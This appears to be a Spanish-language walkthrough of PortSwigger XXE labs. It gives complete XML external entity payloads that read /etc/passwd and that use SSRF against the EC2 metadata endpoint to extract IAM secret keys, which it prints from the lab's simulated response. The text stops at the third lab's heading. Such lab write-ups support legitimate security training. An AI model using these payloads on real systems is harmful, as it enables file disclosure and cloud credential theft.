 ```yaml
---
layout: default
title: "XML external entity (XXE) injection - PortSwigger"
permalink: /xxe-ps/
---
```


# XML external entity (XXE) injection - PortSwigger

Todos los laboratorios posteriormente expuestos los puedes encontrar para resolverlos en el siguiente link.

[https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe)

## Índice



## 1. Lab: Exploiting XXE using external entities to retrieve files

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

Para resolver el laboratorio, inyecte una entidad externa XML para recuperar el contenido del /etc/passwdarchivo.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.

![](img1.png)

Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Y Lo probamos en el paquete para verificar si existe una respuesta válida.

![](img2.png)

Ahora, vamos al home para verificar que completamos el laboratorio.

![](img3.png)

## 2. Lab: Exploiting XXE to perform SSRF attacks

```
Este laboratorio tiene una función "Check stock" que analiza la entrada XML y devuelve cualquier valor inesperado en la respuesta.

El servidor de laboratorio está ejecutando un punto final de metadatos EC2 (simulado) en la URL predeterminada, que es http://169.254.169.254/. Este punto final se puede utilizar para recuperar datos sobre la instancia, algunos de los cuales pueden ser confidenciales.

Para resolver el laboratorio, aproveche la vulnerabilidad XXE para realizar un ataque SSRF que obtenga el secret access key de IAM del servidor desde el punto final de metadatos EC2.
```

Entonces, vamos al laboratorio e interceptamos en segundo plano todos los paquetes en el burpsuite, entonces vamos a un producto y hacemos clic en **Check stock** y buscamos el paquete en el **Http history** y lo enviamos al **Repeater**.

![](img4.png)

Entonces ahora debemos generar un payload para el ataque, el cual será el siguiente basandonos en la estructura del XML del paquete:

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/"> ]><stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Y enviamos el paquete, observamos lo siguiente:

![](img5.png)

Recibimos como respuesta el string **latest**, lo agregamos a la url de la ip a la que queremos acceder y obtenemos la siguiente respuesta:

```
PAYLOAD: <?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
RESPUESTA: "Invalid product ID: meta-data"
```

Y volvemos a agregar la respuesta en la url del payload y obtenemos la siguiente respuesta:

```
"Invalid product ID: iam"
```

Y seguimos agregando todos los que nos sugiere hasta tener el siguiente payload.

```
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://169.254.169.254/latest/meta-data/iam/security-credentials/admin"> ]><stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

El cual nos devuelve la siguiente respuesta:

![](img6.png)

```
"Invalid product ID: {
  "Code" : "Success",
  "LastUpdated" : "2021-02-07T16:07:36.536751Z",
  "Type" : "AWS-HMAC",
  "AccessKeyId" : "mxjF9Xea2bZ9FpdxtCCU",
  "SecretAccessKey" : "wORR4gS3GaX0QzbXqFs7qAk7AyQkFvzYCVc48DDx",
  "Token" : "jy7FOMsOs523ituXLzFHQKLJsNYKdRfrCxkJFWJOqW6e9INmJ9fyn8dGi3olUWxkfkSXLdIuCFRdB6K03D56Rnrq0XYBSYqGrNt4gulNlfrSkMSxzsBwl8bzPSTXI2lTVjYAFgXbeB1U1VBPIiW243nEzoqsmUi4Zs8ZhqAqIsQ6hoZ30EMhrtbFxFNzdZMssvglji6r4CbsPxBxDb4yseYBZ3nLBUXEFIG47pXmQCwlXMfnLzKcRkBCRHSl2Dg2",
  "Expiration" : "2027-02-06T16:07:36.536751Z"
}"
```

Y los que nos piden es el **secret access key** el cual sería **wORR4gS3GaX0QzbXqFs7qAk7AyQkFvzYCVc48DDx**. Entramos al home del laboratorio desde el navegador para verificar que completamos el laboratorio.

![](img7.png)

## 3. Lab: Blind XXE with out-of-band interaction

